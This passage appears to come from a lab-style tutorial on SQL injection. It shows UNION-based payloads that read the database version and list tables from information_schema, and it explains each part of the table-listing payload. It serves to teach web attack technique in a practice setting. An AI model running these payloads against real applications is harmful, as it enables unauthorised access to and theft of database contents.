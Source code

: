 **Extracting Specific Information:**

* Once we know the number of columns, we can selectively extract information. For instance, `jeremy' union select null,null,version()#` allows us to retrieve the database version.

Now let's see all the tables that exist in the database

`jeremy' union select null,null,table_name from information_schema.tables#`

<figure><img src="../../../../.gitbook/assets/image (345).png" alt=""><figcaption></figcaption></figure>

* `jeremy'`: Closing single quote to end the original string.
* `union select null, null, table_name`: Adds a new SELECT statement to the original query. It selects the `table_name` column from the `information_schema.tables` table, using `NULL` as placeholders for the other columns.
* `from information_schema.tables#`: Specifies the table (`information_schema.tables`) from which to retrieve data. The `#` comments out the rest of the query.
